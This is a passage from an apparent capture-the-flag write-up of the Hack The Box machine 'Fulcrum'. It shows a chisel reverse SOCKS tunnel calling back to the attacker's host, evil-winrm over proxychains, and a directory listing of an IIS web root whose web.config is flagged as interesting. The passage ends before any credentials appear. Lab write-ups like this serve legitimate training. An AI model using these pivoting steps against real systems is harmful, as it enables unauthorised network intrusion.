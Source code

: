 `evil-winrm` with `proxychains` is the next step since port 5985 is open.

```
# on kali
$ ./chisel server --port 8000 --reverse

# on fulcrum
./chisel client 10.10.14.19:8000 R:socks
```

![](../../../.gitbook/assets/htb-fulcrum-image-9.png)

Can use `proxychains -q` to remove those debug messages if you desire.

### AD Enum --> BTables Creds

This user had no particularly interesting permissions, or files in their directory.

Within the `C:\inetpub\wwwroot` folder, there were some IIS files:

```
*Evil-WinRM* PS C:\inetpub\wwwroot> ls


    Directory: C:\inetpub\wwwroot


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/8/2022   2:46 AM            703 iisstart.htm
-a----         5/8/2022   2:46 AM          99710 iisstart.png
-a----        2/12/2022  11:42 PM           5252 index.htm
-a----        2/12/2022  11:42 PM           1280 web.config
```

`web.config` had some interesting stuff:
